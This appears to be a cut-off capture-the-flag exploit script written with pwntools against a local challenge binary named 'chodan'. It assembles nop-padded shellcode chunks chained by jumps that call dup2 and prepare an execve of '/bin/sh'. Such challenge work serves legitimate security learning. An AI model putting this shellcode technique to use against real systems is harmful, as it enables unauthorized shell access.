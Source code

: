 ```cs
from pwn import *

context.binary = exe = ELF('./chodan',checksec=False)
context.arch = 'amd64'
p = process()

sc = asm('''
         sc1:
            xor rsi,rsi
            xor rdi,rdi
            jmp sc2
            nop
            nop
            nop
            nop
            nop
            nop
            nop
            nop
         sc2:
            add rdi,1
            nop
            nop
            jmp sc3
            nop
            nop
            nop
            nop
            nop
            nop
            nop
            nop
         sc3:
            xor rax,0x21
            syscall
            jmp sc4
            nop
            nop
            nop
            nop
            nop
            nop
            nop
            nop
         sc4:
            push 6845231
            nop
            jmp sc5
            nop
            nop
            nop
            nop
            nop
            nop
            nop
            nop
         sc5:
            pop r9
            xor rax,0x3b
            jmp sc6
            nop
            nop
            nop
```